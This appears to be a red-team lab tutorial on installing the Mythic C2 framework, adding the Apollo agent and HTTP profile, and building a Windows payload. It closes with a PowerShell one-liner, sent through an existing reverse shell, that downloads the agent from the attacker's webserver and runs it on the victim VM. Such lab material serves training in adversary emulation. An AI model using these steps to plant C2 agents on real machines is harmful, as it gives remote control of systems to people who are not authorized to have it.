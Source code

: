 # **Mythic C2 Framework**

Mythic is an open-source Command and Control (C2) framework designed for red team operations and adversary emulation. It allows operators to interact with compromised systems in a stealthy and customizable manner. Originally developed by Cody Thomas (a.k.a. its_a_feature_), Mythic supports multiple agents and payloads that can be tailored to specific operational needs. It provides a robust and modular architecture that includes a web-based interface for managing tasks, communications, and agent development, making it highly flexible for offensive security teams. Mythic is especially valued for its cross-platform support and its ability to integrate with other red teaming tools.

The instructions below will cover the installation of Mythic and creating a payload.

1. Create an Ubuntu server VM. By this point you should be familiar with creating a virtual machine.
2. Set the network adaptor as shown below. This will put it in the attacker subnet. 

![image.png](Screenshots/1-C2Framework/image1.webp)

 3. From your Kali VM in the same subnet, SSH to the Ubuntu server. 

![image.png](Screenshots/1-C2Framework/image2.webp)

1. Run the following commands to install Docker and Mythic:

```go
sudo apt-get update && apt-get upgrade
```

```go
sudo apt install docker-compose
```

```go
sudo apt install make
```

```go
git clone https://github.com/its-a-feature/Mythic
```

```go
cd Mythic
```

```go
sudo ./install_docker_ubuntu.sh
```

```go
sudo systemctl start docker
```

```go
sudo make
```

```go
sudo ./mythic-cli start
```

```go
sudo ufw allow 80
```

```go
sudo ufw allow 443
```

Login to the Mythic server with a web browser on your Kali VM. Use the IP address of the Mythic server and port 7443.

![image.png](Screenshots/1-C2Framework/image3.webp)

The default user is mythic_admin. The password is located in the Mythic directory in a file named .env. It is a hidden file, so make sure you include the -la.

![image.png](Screenshots/1-C2Framework/image4.webp)

![image.png](Screenshots/1-C2Framework/image5.webp)

After signing in you should be presented with the dashboard.

![image.png](Screenshots/1-C2Framework/image6.webp)

Go back to the SSH terminal on Kali and run the command below.

```go
./mythic-cli install github https://github.com/MythicAgents/Apollo.git
```

This installs the Apollo C2 service.

![image.png](Screenshots/1-C2Framework/image7.webp)

Create a HTTP C2 profile from the SSH connection.

```go
./mythic-cli install github https://github.com/MythicC2Profiles/http
```

![image.png](Screenshots/1-C2Framework/image8.webp)

Create a payload by selecting the options shown below.

![image.png](Screenshots/1-C2Framework/image9.webp)

Select the Target Operating System (Windows) and select next.

![image.png](Screenshots/1-C2Framework/image10.webp)

Select the Payload Type (WinExe) and then select next.

![image.png](Screenshots/1-C2Framework/image11.webp)

Select all the commands and then select next.

![image.png](Screenshots/1-C2Framework/image12.webp)

Include profile. Change to HTTP and enter public IP of Mythic server.  Callback port 80. Leave everything else as default.

![image.png](Screenshots/1-C2Framework/image13.webp)

Once the payload is built, you can download it to your Kali VM.

![image.png](Screenshots/1-C2Framework/image14.webp)

Move the payload to the /home/elliot directory, so we can use the same webserver to download it to the victim.

![image.png](Screenshots/1-C2Framework/image15.webp)

### Deploying the Mythic C2 Agent

In this example we will stand up a webserver on our Kali VM and use an existing reverse shell to download and execute the agent on the victim Windows VM. 

![image.png](Screenshots/1-C2Framework/image16.webp)

```go
powershell -Command Invoke-WebRequest -Uri "[http://10.0.3.2:8000/redwheelbarrow.exe](http://10.0.3.2:8000/theredwheelbarrow.exe)" -OutFile "C:\Users\tcolby\Downloads\redwheelbarrow.exe"; C:\Users\tcolby\Downloads\redwheelbarrow.exe
```

